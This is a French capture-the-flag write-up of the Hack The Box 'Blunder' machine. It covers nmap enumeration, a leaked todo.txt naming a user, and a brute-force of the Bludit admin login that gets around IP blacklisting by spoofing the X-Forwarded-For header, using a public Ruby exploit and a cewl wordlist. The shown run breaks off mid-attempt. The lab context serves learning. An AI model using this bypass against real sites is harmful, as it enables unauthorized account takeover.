             <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Enumeration

### nmap
```bash
$ nmap -sC -sV -An -T4 -vvv 10.10.10.191
PORT   STATE  SERVICE REASON       VERSION
21/tcp closed ftp     conn-refused
80/tcp open   http    syn-ack      Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
|_http-generator: Blunder
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: A0F0E5D852F0E3783AF700B6EE9D00DA
```

## Foothold

### Webserver : todo.txt
Sur le port 80, on trouve un serveur web. A la racine se trouve un fichier todo.txt avec des informations intéressantes.
```bash
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

### Bruteforce admin login page
On peut bruteforce la page admin avec l'utilisateur potentiel "fergus" qu'on a trouvé dans le todo.txt.
Il y  a une protection contre le bruteforce qui blacklist notre IP. Mais on peut changer le parametre "X_FORWADED_FOR: 127.0.0.1" avec une autre ip aléatoire et à nouveau effectuer de nouvelles tentatives d'authentification. Quelqu'un a déjà créer un script sur github en ruby pour effectuer cette attaque bruteforce facilement. On le trouve en utilisant searchsploit mais egalement sur internet:
https://github.com/noraj/Bludit-auth-BF-bypass

Pour la liste de mot de passe, le mot de passe ne semble pas etre dans la lite rockyou. Le reflexe est donc de créer une liste grâce à cewl et tous les mots présents sur la page d'accueil :
```bash
cewl http://10.10.10.191 > pass.txt
```
On peut maintenant effectuer notre attaque bruteforce avec notre script, l'utilisateur fergus ainsi que la liste de mot de passe basé sur les mots présents sur la page d'accueil du site web :
```bash
┌──(kali㉿kali)-[~/htb/Blunder]
└─$ ruby exploit.rb -r http://10.10.10.191 -u fergus -w ./pass.txt 
[*] Trying password: CeWL 6.1 (Max Length) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
[*] Trying password: the
...
...
[*] Trying password: book
[*] Trying password: collections
[*] Trying password: Bram
[*] Trying password: Stoker
```